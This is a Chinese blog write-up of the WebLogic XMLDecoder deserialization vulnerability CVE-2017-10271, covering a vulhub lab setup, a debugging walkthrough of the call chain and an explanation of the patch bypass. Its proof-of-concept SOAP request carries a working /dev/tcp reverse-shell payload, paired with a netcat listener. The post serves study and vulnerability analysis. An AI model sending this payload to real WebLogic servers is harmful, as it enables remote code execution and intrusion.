# CVE-2017-10271 - vitara - 博客园

> 原文：[`www.cnblogs.com/vitara/p/17252297.html`](https://www.cnblogs.com/vitara/p/17252297.html)

# Weblogic XMLDecoder 反序列化漏洞

mad，vulnhub 起环境一不小心起错了，那就先看看 XML 漏洞。

## 关于

Oracle WebLogic Server（以下简称 WebLogic）是一个可扩展的企业级 Java 平台（Java EE）应用服务器。其完整实现了 Java EE 5.0 规范，并且支持部署多种类型的分布式应用程序。

### 序列化&&反序列化

序列化 JButton 类

```
import javax.swing.*;
import java.beans.XMLEncoder;
import java.io.BufferedOutputStream;
import java.io.FileNotFoundException;
import java.io.FileOutputStream;

public class XmlEncoder {
    public static void main(String[] args) throws FileNotFoundException {
        XMLEncoder e = new XMLEncoder(new BufferedOutputStream(new FileOutputStream("result.xml")));
        e.writeObject(new JButton("Hello,xml"));
        e.close();
    }
} 
```

得到 xml 文档

```
<?xml version="1.0" encoding="UTF-8"?>
<java version="19.0.2" class="java.beans.XMLDecoder">
 <object class="javax.swing.JButton">
  <string>Hello,xml</string>
 </object>
</java> 
```

反序列化

```
import java.beans.XMLDecoder;
import java.io.BufferedInputStream;
import java.io.FileInputStream;
import java.io.FileNotFoundException;
import java.io.FilterInputStream;

public class XmlDecoder {
    public static void main (String[] args) throws FileNotFoundException {
        XMLDecoder d = new XMLDecoder(new BufferedInputStream(new FileInputStream("result.xml")));
        Object result = d.readObject();
        System.out.println(result);
        d.close();
    }
} 
```

反序列化结果

```
javax.swing.JButton[,0,0,0x0,invalid,alignmentX=0.0,alignmentY=0.5,border=javax.swing.plaf.BorderUIResource$CompoundBorderUIResource@5ae9a829,flags=296,maximumSize=,minimumSize=,preferredSize=,defaultIcon=,disabledIcon=,disabledSelectedIcon=,margin=javax.swing.plaf.InsetsUIResource[top=2,left=14,bottom=2,right=14],paintBorder=true,paintFocus=true,pressedIcon=,rolloverEnabled=true,rolloverIcon=,rolloverSelectedIcon=,selectedIcon=,text=Hello,xml,defaultCapable=true] 
```

### XML 标签、属性介绍

#### object 标签

通过 `<object>` 标签表示对象， `class` 属性指定具体类(用于调用其内部方法)，`method` 属性指定具体方法名称(比如构造函数的的方法名为 `new` )

`new JButton("Hello,xml")` 对应的`XML`文档:

```
<object class="javax.swing.JButton" method="new">
    <string>Hello,xml</string>
</object> 
```

##### string 标签

表示字符串

##### void 标签

表示函数的调用，赋值等操作，method 属性指定具体的方法名称。

`JButton b = new JButton();b.setText("Hello, world");` 对应的`XML`文档:

```
<object class="javax.swing.JButton">
    <void method="setText">
    <string>Hello,xml</string>
    </void>
</object> 
```

##### array 标签

通过 `array` 标签表示数组， `class` 属性指定具体类，内部 `void` 标签的 `index` 属性表示根据指定数组索引赋值。
`String[] s = new String[3];s[1] = "Hello,xml";` 对应的`XML`文档:

```
<array class="java.lang.String" length="3">
    <void index="1">
    <string>Hello,xml</string>
  </void>
</array> 
```

举个例子

```
<java version="1.7.0_80" class="java.beans.XMLDecoder">
 <object class="java.lang.ProcessBuilder">
  <array class="java.lang.String" length="1">
    <void index="0"><string>calc</string></void>
  </array>
  <void method="start"></void>
 </object>
</java> 
```

反序列化命令执行


## 00x1 环境搭建

启动之前先修改一下 yml 文件（一定要先修改再启动容器，不然无法映射 8453 端口）

```
version: '2'
services:
weblogic:
image: vulhub/weblogic:10.3.6.0-2017
ports:
- "7001:7001"
- "8453:8453" 
```

使用 vulnhub 的 docker 镜像起动环境

```
启动环境
git clone https://github.com/vulhub/vulhub.git
cd vulnhub/weblogic/cve-2017-10271
docker-compose build
docker-compose up -d
查看
docker ps -a 
```

启动后访问本地 7001 端口



进入容器/root/Oracle/Middleware/user_projects/domains/base_domain/bin/setDomainEnv.sh 中的 debugFlag 参数修改为 true

添加代码

debugFlag="true"

export debugFlag



```
文件修改命令
docker cp [容器 id]:docker 容器中配置文件路径  主机路径
docker cp e4b322a429d1:/etc/setDomainEnv.sh 改/root/Oracle/Middleware/user_projects/domains/base_domain/bin/setDomainEnv.sh

// 改完之后
docker cp 主机文件路径  [容器 id]:docker 容器中配置文件路径
docker cp /home/grafana.ini e4b322a429d1:改/root/Oracle/Middleware/user_projects/domains/base_domain/bin/setDomainEnv.sh 
```

进入容器查看端口开启情况

```
docker exec -it [容器 ID] /bin/bash
netstat -ano 
```


把源码拉出来

```
┌──(root㉿kali)-[/home/…/vulhub/weblogic/CVE-2017-10271/Middleware]
└─# docker cp 2b4034ec6f13:/root /home/chenghao/下载/weblogic 
```



将 JDK 设置为项目的 JDK


将\Oracle\Middleware\server\lib 和\Oracle\Middleware\wlserver_10.3\modules 添加到 lib




编辑配置



debug 远程调试


## 00x2 漏洞描述

XMLDecoder/XMLEncoder 是在 JDK1.4 版中添加的 XML 格式序列化持久性方案，使用 XMLEncoder 来生成表示 JavaBeans 组件(bean)的 XML 文档，用 XMLDecoder 读取使用 XMLEncoder 创建的 XML 文档获取 JavaBeans。

**漏洞引发的原因**是 Weblogic“wls-wsat”组件在反序列化操作时使用了 Oracle 官方的 JDK 组件中“XMLDecoder”类进行 XML 反序列化操作引发了代码执行

XMLDecoder 类用于读取使用 XMLEncoder 创建的 XML 文档

## 00x3 漏洞复现

对页面抓包，改包

POC

```
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: 127.0.0.1:7001
Accept-Encoding: identity
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept: */*
User-Agent: Mozilla/5.0 (Windows NT 5.1; rv:5.0) Gecko/20100101 Firefox/5.0
Accept-Charset: GBK,utf-8;q=0.7,*;q=0.3
Connection: keep-alive
Content-Type: text/xml;charset=UTF-8
Content-Length: 648

<soapenv:Envelope > <soapenv:Header>
<work:WorkContext >
<java version="1.4.0" class="java.beans.XMLDecoder">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>/bin/sh -i &gt; /dev/tcp/xxx.xxx.xxx.xx/1234 2&lt;&amp;1 0&lt;&amp;1</string>
</void>
</array>
<void method="start"/></void>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body/>
</soapenv:Envelope> 
```

vps 监听

```
nc -lvp 7777 
```



## 00x4 漏洞分析

### **CVE-2017-10271**

影响范围

*   WebLogic 10.3.6.0
*   WebLogic 12.1.3.0
*   WebLogic 12.2.1.0
*   WebLogic 12.2.1.1
*   WebLogic 12.2.1.2

CVE-2017-3506 和 CVE-2017-10271 均是 XMLDecoder 反序列化漏洞，CVE-2017-3506 修补方案为禁用 object 标签。 CVE-2017-10271 是通过 void 、 new 标签对 CVE-2017-3506 补丁的绕过

/server/lib/wls-wsat.war!/WEB-INF/web.xml


这是一个 wls-wsat 组件，里面的路由都可以触发漏洞

利用链，从 weblogic.wsee.jaxws.workcontext.WorkContextServerTube#processRequest 开始


var1 就是我们上传的 xml 内容，var2 是 header，var 是从 WorkAreaConstants.WORK_AREA_HEADER 得到 的，也就是 soap 解析的结果



var3 不为空，传入 readHeaderOld 中


实例化了 WorkContextXmlInputAdapter

ByteArrayOutputStream 中 var4 的内容是


这些都是 xml 的序列化数据，可以看到，var4 的数据都被 WorkContextXmlInputAdapter 方法打包处理进了 var6

而后进入 this.receive 方法


将 WorkContextXmlInputAdapter 的实例传入 receiveReuest 中，之后一直跟进到 readObject 中


**调用链**



### 对补丁的绕过

为什么<void>标签能替代标签呢

先来看看补丁

```
private void validate(InputStream is) {
      WebLogicSAXParserFactory factory = new WebLogicSAXParserFactory();
      try {
         SAXParser parser = factory.newSAXParser();
         parser.parse(is, new DefaultHandler() {
            public void startElement(String uri, String localName, String qName, Attributes attributes) throws SAXException {
               if(qName.equalsIgnoreCase("object")) {
                  throw new IllegalStateException("Invalid context type: object");
               }
            }
         });
      } catch (ParserConfigurationException var5) {
         throw new IllegalStateException("Parser Exception", var5);
      } catch (SAXException var6) {
         throw new IllegalStateException("Parser Exception", var6);
      } catch (IOException var7) {
         throw new IllegalStateException("Parser Exception", var7);
      }
   } 
```

if(qName.equalsIgnoreCase("object")) {
throw new IllegalStateException("Invalid context type: object");

这里做了一个条件判断，限制了 object 标签



可以看到当把标签从 void 改为 object 后报错了

自己写一个 xmldecode 类，在 readobject 函数处下断点，跟进到

com/sun/beans/decoder/DocumentHandler.java



这里的 this.handlers 参数包含了所有元素对应的解析器


需要解析解析什么元素就会调用“标签”+ElementHandler 的构造函数去实例化一个"标签"+ElementHandler 的类对象，然后设置一些属性，我们这里看一下 ObjectElementHandler 的 addAttribute 方法

com/sun/beans/decoder/ObjectElementHandler.java


这里的 object 依然继承 newelementhandler 所以，依然是调用 newelement 的 addAttribute，所以可以获得类，这也证明的 new 元素本身可以代替 class



然后我们再来看看 void 元素


这就是为什么继承了 objecthandlerelement 或者 newhandlerelement 的元素可以代替 object 元素

**参考链接**</void>